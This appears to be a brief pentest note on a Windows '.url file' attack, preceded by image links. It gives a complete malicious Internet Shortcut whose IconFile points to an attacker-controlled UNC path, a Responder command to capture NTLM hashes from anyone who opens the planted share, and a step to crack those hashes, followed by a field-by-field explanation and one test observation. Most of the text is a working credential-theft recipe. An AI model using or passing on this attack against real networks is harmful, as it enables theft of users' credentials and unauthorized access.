






# URL  File attack

work flow:

1) compremised account 
2) responder.py -I eth0 -V   
3) add the following file into a share folder :

file.url :
[InternetShortcut]
URL=blah
workingDirectory=blah
IconFile=\\192.168.138.131\%USERNAME%.ico
IconIndex=1

4) waiting untill someone visits that share folder

5) crack the given hashes

file.url explanation :

[InternetShortcut] -&gt; tells windows this is a url file
URL=https://google.com
workingDirectory=blah -&gt; specifies the working directory used when the shortcut is launched.
IconFile=\\192.168.138.131\%USERNAME%.ico -&gt; Windows tries to display an icon for the shortcut. To do that, it connects to 192.168.138.128 and retrieve &lt;username&gt;.icon
IconIndex=1 -&gt; An icon file can contain multiple icons , so this specifies which icon number to use.

from the responder results we can conclude that victem user didn't connect to us throuh IconFile instead connect through URL after visiting it

